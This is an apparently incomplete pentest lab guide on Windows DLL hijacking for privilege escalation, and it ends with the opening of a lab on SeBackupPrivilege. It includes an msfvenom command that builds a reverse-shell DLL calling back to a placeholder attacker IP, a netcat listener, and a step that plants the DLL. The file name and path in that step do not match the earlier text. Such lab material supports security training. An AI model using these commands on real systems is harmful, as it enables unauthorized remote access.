
### Lab 8: DLL Hijacking
#### Objective
Escalate privileges by exploiting DLL hijacking on a Windows application. [SOLUTION IS NOT COMPLETE AT THE MOMENT: TO-DO]

#### Vulnerabilities
- DLL Hijacking: Applications loading untrusted DLLs from writable directories.

#### Requirements
Target Windows machine must have a vulnerable application installed.

#### Steps
1. **Setup**
   - Verify access to the target system.
   ```bash
   net use \\<TARGET_IP>
   ```
2. **Reconnaissance**
   - Identify applications loading DLLs from writable paths. You will see ITHelper program that says "Pentest.dll" not found.
   ```bash
   procmon.exe
   ```
3. **Exploitation**
   - Create a malicious Pentest.dll with a msfvenom
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<LISTENING_PORT> -f dll -o Pentest.dll
   ```
   - Start a net cat listener in your attacking machine  `nc -nlvp <LISTENING_PORT>
   - Place a malicious DLL in the writable directory in C:\MyProgram.
   ```bash
   copy Pentests.dll C:\Users\<APP_PATH>
   ```

#### Why It Works
Applications loading DLLs without full path validation execute malicious DLLs, granting attacker-controlled code execution.

#### Alternatives
- Use PowerShell to monitor DLL loading behavior.

#### Resources
- [DLL Hijacking Guide: https://www.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking](https://www.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking)

#### Notes
- Use Process Monitor to identify vulnerable DLL paths.

---

### Lab 9: SeBackupPrivilege Abuse
#### Objective
Escalate privileges by abusing the SeBackupPrivilege to access sensitive files.
